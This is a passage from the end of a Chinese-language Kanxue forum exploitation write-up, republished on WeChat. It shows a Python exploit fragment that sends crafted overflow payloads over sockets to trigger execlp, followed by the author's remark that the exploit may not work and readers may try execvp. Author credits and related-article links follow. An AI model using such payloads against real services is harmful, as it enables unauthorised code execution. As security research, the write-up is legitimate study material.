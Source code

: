 ```
sdata += struct.pack(">I",0x80000000) #headersize
con_list[14].send(sdata)
sdata = b'C'*0x4140+b"\xb1\x02\x00\x00\x00\x00\x00\x00"+b"/tmp/x\x00\x00"+b"\x01\x00\x00\x00"*2
sdata+=b"\x02\x00\x00\x00\x00\x00\x00\x00"+b"\xba\xc9\x40\x00\x00\x00\x00\x00"+b"\x00\x00\x00\x00\x00\x00\x00\x00"
sdata+=b"\x00\x00\x00\x7f\x00\x00\x00\x00"+b"\xba\xc9\x40\x00\x00\x00\x00\x00"+b"\xf0\x93\x3a\x02\x00\x00\x00\x00"
sdata+=b"P"*0x240+b"\xf0\x3b\x40\x00\x00\x00\x00\x00"+b"\xf0\x3a\x40\x00\x00\x00\x00\x00"
sdata+=b"\x64\x54\x40\x00\x00\x00\x00\x00"
con_list[14].send(sdata)
 
# trigger execlp
sdata = b''
sdata += struct.pack("I",0x2222CCCC)
sdata += b"\x58\x01\xda\x00\x00\x00\x00\x00"
con_list[15].send(sdata)
```  
  
  
这个 exp 可能是不通的，因为我选了用 execlp 去完成。主要是做到这一步之后，我感兴趣的部分已经全都完成了，所以差不多就停了，并且本文也已经写完了。  
  
  
如果读者对 execvp 的方案感兴趣，也可以自行尝试一下。  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8H9geMHgWZACr7A1siboicS30wufL8bzDmNXUTtiaYplTtjiabApsQpic2eoSYkz2DDMy9KJ5ZkE062icPw/640?wx_fmt=png "")  
  
  
**看雪ID：Tokameine**  
  
https://bbs.pediy.com/user-home-924548.htm  
  
*本文由看雪论坛 Tokameine 原创，转载请注明来自看雪社区  
  
  
[](https://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458478676&idx=1&sn=1208da7520ae52a9833df98a3d46139e&scene=21#wechat_redirect)  
  
峰会回顾：https://mp.weixin.qq.com/s/eEbc8k8H9Pc2K0d_AHG3BA  
  
  
  
**#****往期推荐**  
  
1.[CVE-2022-21882提权漏洞学习笔记](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458471430&idx=1&sn=6a47d0c5c8f3f6204548e80977ecd059&chksm=b18e7c8c86f9f59a88d9b8e83c8297e0ef65034a73436998ab835531baadaa51f3d630793b95&scene=21#wechat_redirect)  
  
  
2.[wibu证书 - 初探](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458471429&idx=1&sn=a85188de9b9697fd1b9e708bb8bb1fdb&chksm=b18e7c8f86f9f59933d6cbf0040ed796f06e37b23f17f1ae842eb22257de02338e1a8d751f6b&scene=21#wechat_redirect)  
  
  
3.[win10 1909逆向之APIC中断和实验](http://mp.weixin.qq.com/s?__biz=MjM5NTc2MDYxMw==&mid=2458471421&idx=2&sn=e83cf7220dc1c4c06a2efc78593e30cc&chksm=b18e7b7786f9f2614ecce34e23be7f71a3d3516766aabda8f25ae41c81ef359a2c245503cf86&scene=21#wechat_redirect)  
  
  